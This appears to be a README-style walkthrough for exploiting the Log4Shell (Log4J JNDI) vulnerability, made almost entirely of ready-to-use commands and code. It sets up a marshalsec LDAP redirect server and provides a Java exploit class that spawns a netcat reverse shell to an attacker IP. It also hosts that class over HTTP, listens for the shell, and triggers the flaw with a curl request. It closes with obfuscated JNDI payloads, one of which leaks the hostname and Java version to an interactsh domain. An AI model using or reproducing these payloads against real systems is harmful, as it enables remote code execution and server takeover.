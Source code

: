 # Log4J exploit

## Install and start LDAP server that redirects to your exploit class:
https://github.com/mbechler/marshalsec

```
git clone https://github.com/mbechler/marshalsec.git
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.IP:8000/#Exploit"
```

## Save exploit class to Exploit.java:
```
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP 1337");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

## Compile exploit to Javacode:
```
javac Exploit.java -source 8 -target 8
```

## Host Javacode with python:
```
python3 -m http.server
```

## Wait for reverse shell:
```
nc -lnvp 1337
```

## Trigger Log4J to connect with your LDAP:
```
curl 'http://TARGET:8983/?foo=$\{jndi:ldap://YOUR.IP:1389/Exploit\}'
```

```
${jndi:${lower:l}${lower:d}a${lower:p}://xx.interactsh.com/poc}
${jndi:${lower:l}${lower:d}a${lower:p}://${hostName}.${sys:java.version}.xx.interactsh.com/poc}
```